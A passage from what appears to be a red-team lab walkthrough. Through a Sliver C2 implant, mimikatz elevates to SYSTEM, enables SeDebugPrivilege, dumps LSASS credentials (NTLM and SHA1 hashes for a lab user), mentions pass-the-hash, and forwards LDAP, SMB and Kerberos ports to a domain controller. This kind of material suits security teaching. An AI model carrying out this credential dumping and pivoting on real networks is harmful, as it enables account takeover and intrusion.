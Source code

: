         ```sliver
        mimikatz(commandline) # token::elevate
        Token Id  : 0
        User name :
        SID name  : NT AUTHORITY\SYSTEM

        556     {0;000003e7} 0 D 44956          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
        -> Impersonated !
        * Process Token : {0;01d47696} 3 F 31725093    LAB\t.howard    S-1-5-21-2722926128-310879818-2353593629-1120   (12g,24p)       Primary
        * Thread Token  : {0;000003e7} 0 D 31879099    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
        ```
        </details>
        
        Confirm `SeDebugPrivilege`.
        ```sliver
        sliver (ABSENT_PRESSROOM) > mimikatz privilege::debug
        mimikatz(commandline) # privilege::debug
        Privilege '20' OK
        ```
        Inspect and parse LSASS. Credentials for `LAB\t.howard` (NTLM: `5f69...`) were obtained.
        <details>
        <summary><code>sliver (ABSENT_PRESSROOM) > mimikatz sekurlsa::logonpasswords</code> — Click to expand</summary>

        ```sliver
        mimikatz(commandline) # sekurlsa::logonpasswords

        Authentication Id : 0 ; 30701230 (00000000:01d476ae)
        Session           : Interactive from 3
        User Name         : t.howard
        Domain            : LAB
        Logon Server      : LAB-DC01
        Logon Time        : 01/06/2025 08:14:16
        SID               : S-1-5-21-2722926128-310879818-2353593629-1120
        msv :
         Primary
         * Username : t.howard
         * Domain   : LAB
         * NTLM     : 5f695056521900e992a6366aabb446a3
         * SHA1     : 8b18a23d3c272fb1f5e635c3f029fc88351a885e
         * DPAPI    : 5da66620315ba75a9e63de132374ac36  
        ```
        </details>
        This NTLM hash could then be cracked offline or simply used for pass-the-hash.

*   **C. Port Forwarding:**
    To allow tools on our Exegol container to communicate with `LAB-DC01` (at `192.168.81.10`), we forward the necessary ports.
    *   **LDAP 389:**
        ```sliver
        sliver (ABSENT_PRESSROOM) > portfwd add --bind 127.0.0.1:389 --remote 192.168.81.10:389
        [*] Port forwarding 127.0.0.1:389 -> 192.168.81.10:389
        ```
    *   **SMB 445:**
        ```sliver
        sliver (ABSENT_PRESSROOM) > portfwd add --bind 127.0.0.1:445 --remote 192.168.81.10:445
        [*] Port forwarding 127.0.0.1:445 -> 192.168.81.10:445
        ```
    *   **Kerberos 88:**
        ```sliver
        sliver (ABSENT_PRESSROOM) > portfwd add --bind 127.0.0.1:88 --remote 192.168.81.10:88
        [*] Port forwarding 127.0.0.1:88 -> 192.168.81.10:88
        ```